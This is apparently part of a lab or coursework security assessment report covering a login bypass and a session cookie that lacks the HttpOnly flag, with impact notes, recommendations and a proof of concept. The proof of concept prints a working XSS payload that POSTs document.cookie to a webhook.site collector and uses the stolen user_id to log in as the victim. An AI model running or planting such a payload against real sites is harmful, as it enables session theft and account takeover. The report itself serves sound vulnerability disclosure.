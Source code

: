 <br>

### 2.6.3 Impact

Insufficient input validation in login form allows attackers to log in as a different user without knowing the password of the victim.

### 2.6.4 Recommendation

Database module should have a robust mechanism of validating, parsing and escaping data securely, so that maliciously crafted data can't temper with how the data is interpreted. It might be a good idea to use a well known database solution instead of making a custom one, as the risk of such attacks would be significantly reduced.

### **2.7 Sensitive Cookie Without 'HttpOnly' Flag**

- **KSI attack name:** Getting login as another user without password (alternative solution)
- **Severity:** <span style="color:#f38c00">**Medium**</span>
- **Reference:** [CWE-1004](https://cwe.mitre.org/data/definitions/1004.html)

### 2.7.1 Description

Cookies containing sensitive data (such as login session) should use `HttpOnly` flag, so that attacker can't access them from JavaScript in case they manage to force the web browser of a victim to run malicious code (for example with XSS).

### 2.7.2 Proof of Concept

With the XSS vulnerability mentioned in part **2.4**, an attacker can execute simple JavaScript code that extracts the cookies of a victim with fetch request to attacker controlled web server.

For demonstration I used [webhook.site](https://webhook.site) which offers a free and easy to use HTTP request logger.
The following was my XSS payload used as the username of the attacker:
```html
<script>fetch("https://webhook.site/4ca52294-10b1-4540-b9d1-77e0bb4e1a0f", {method:"POST", body:document.cookie})</script>
```
When the victim views the submission, the malicious JS is executed, and sends cookies to `webhook.site` collector.
![post](img/post.png)
The POST request is logged and the cookies can be read by the attacker. With the `user_id` the attacker can now log in as the victim.